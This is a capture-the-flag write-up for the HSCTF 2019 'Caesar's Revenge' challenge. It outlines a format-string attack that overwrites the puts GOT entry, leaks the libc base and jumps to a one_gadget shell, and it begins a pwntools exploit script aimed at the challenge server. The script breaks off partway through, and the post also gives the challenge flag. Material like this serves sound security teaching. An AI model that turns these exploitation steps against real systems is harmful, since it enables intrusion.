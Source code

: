 flag: `hsctf{flippin_pwn_g0d}`

# Caesar's Revenge

## Problem

Written by: Ptomerty

Julius Caesar's back, and he's not happy...

`nc pwn.hsctf.com 4567`

6/3/19 7:36 AM: Binary updated, SHA-1: 42280638b188cea498e7b6c55462dbf0351056f4 caesars-revenge

[caesars-revenge](/blog/2019-06-08-hsctf-writeup/Caesars Revenge/caesars-revenge)

[caesars-revenge.c](/blog/2019-06-08-hsctf-writeup/Caesars Revenge/caesars-revenge.c)

## Solution

This is a classic format string challenge with Caesar cipher sprinkled on top. After implementing a Caesar cipher function, it turns into a plain format string attack. I broke the exploit into three stages. Stage one is to change the puts_got entry and make the `caesar` function loop. Then for stage two, we leak the libc base address from another got entry. Then lastly, change the puts_got entry to a one_gadget address and get a shell.

Here is the exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './caesars-revenge'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  # if DEBUG:
  #   attach_gdb()

  REMOTE = False
else:
  sh = remote('pwn.hsctf.com', 4567)
  REMOTE = True

def shift(input, shift=13):
  out = ''
  for c in input:
    c = ord(c)
```